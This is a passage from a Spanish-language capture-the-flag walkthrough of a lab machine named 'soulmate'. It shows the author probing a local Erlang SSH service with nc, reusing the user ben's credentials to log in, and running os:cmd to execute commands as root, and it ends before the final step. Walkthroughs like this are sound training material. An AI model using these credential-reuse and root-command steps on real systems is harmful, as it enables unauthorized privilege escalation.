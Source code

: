 ```
tcp            LISTEN          0               511                                [::]:80                                [::]:*
```

Veremos varios, pero si empezamos a investigar cada uno de ellos, veremos el siguiente bastante interesante:

```shell
nc 127.0.0.1 2222
```

Info:

```
SSH-2.0-Erlang/5.2.9

Protocol mismatch.
```

Vemos que esta utilizando una especie de `SSH` personalizado, por lo que vamos a probar a conectarnos por dicho `SSH` con las mismas credenciales del usuario `ben`, de esta forma:

```shell
ssh ben@127.0.0.1 -p 2222
```

Metemos como contraseña

```
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```

Vemos que efectivamente estamos en una especie de `shell`, si probamos a ejecutar un comando como por ejemplo `whoami`:

```shell
os:cmd("whoami").
```

Info:

```
"root\n"
```

Vemos que seremos `root` dentro de dicha `shell`, pero es que si ejecutamos `hostname` veremos lo siguiente:

```shell
os:cmd("hostname").
```

Info:

```
"soulmate\n"
```

No estamos dentro de un `docker` simplemente es la maquina principal victima, pero con otra interfaz de `shell`, pero para llegar a ser `root` por `SSH` haremos esto:
